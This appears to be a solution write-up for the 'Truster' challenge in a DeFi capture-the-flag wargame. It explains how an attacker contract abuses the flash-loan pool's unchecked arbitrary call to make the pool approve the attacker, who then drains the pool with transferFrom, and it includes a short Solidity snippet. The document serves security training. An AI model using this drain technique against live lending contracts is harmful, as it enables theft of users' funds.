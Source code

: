 # Challenge #3 - Truster

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

# Solution

Create an attacker contract that will call the `target.functionCall(data);` with data as follow:

```
bytes memory data = abi.encodeWithSignature(
    "approve(address,uint256)",
    // _contract,
    address(this),
    contractBalance
);
```

so that the pool contract approve a future `transferFrom` call from the attacker contract.
